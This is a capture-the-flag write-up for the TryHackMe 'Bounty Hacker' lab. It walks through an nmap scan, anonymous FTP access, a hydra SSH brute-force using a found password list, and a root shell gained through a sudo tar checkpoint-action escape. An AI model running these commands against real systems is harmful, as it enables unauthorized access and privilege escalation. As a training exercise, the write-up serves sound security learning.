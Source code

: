 # TryHackMe | [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## Find open ports on the machine

We will use nmap to do a quick scan of the machine for open ports.

```bash
❯ nmap -sV $IP
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

## Who wrote the task list?

To find out who wrote it, we first have to find the task list itself. Let's check the hint for this task, which is "Have you visited FTP?". First let's check if anonymous login is enabled for ftp. Yes it is. Great, now we can copy over the text files we find to our system using the get command.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07  2020 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp>

```

Now let's see the contents of the task.txt.

```bash
❯ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

We can see that the rather surreal sounding tasks have been written by "lin". This may potentially be a username that can be used later.

Let's look into locks.txt now. Looks like it is a list of passwords. It'll come in handy while brute-forcing the password.

```bash
❯ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

```

## What service can you bruteforce with the text file found?

Now let's take a look at the hint for the next task. "What is on port 22?". SSH.

Let's brute force the ssh port using hydra. We use lin as the username and the retrieved locks.txt as our wordlist.

```bash
❯ hydra -l lin -P locks.txt $IP ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[22][ssh] host: 10.10.246.11   login: lin   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found

```

Okay, we have the password now. Let's try to ssh into the machine using these credentials.

![hacker-voice-im-in-9461453.png](images/hacker-voice-im-in-9461453.png)

Lets look around the system for a bit. On checking the home directory, we find the user.txt. Well, that was easy.

```bash
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
[DATA EXPUNGED]

```

Now to find root.txt, we have to escalate our privileges and gain root access to the system. To get started, we type sudo -l to see what commands our current user can run as root.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

As we can see, lin can run /bin/tar as root. Lets head over to [GTFOBins](https://gtfobins.github.io/) and look for an exploit for this binary that can help us break out and gain a root shell. On searching for tar on the site, we get the following command.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Lets pop that into the shell and see what happens. Hmm, it seems we have successfully gained root access.

Now we use the find command to locate root.txt.

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/` from member names
# whoami
root
# find / -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
[DATA EXPUNGED]

```

So there you have it. We have finally completed the room. This was an easy room, so beginners like me shouldn't have much problems with it. If you couldn't do it by yourself though, don't lose hope, the path is full of learning opportunities. Hope you learned something new today. Adios.
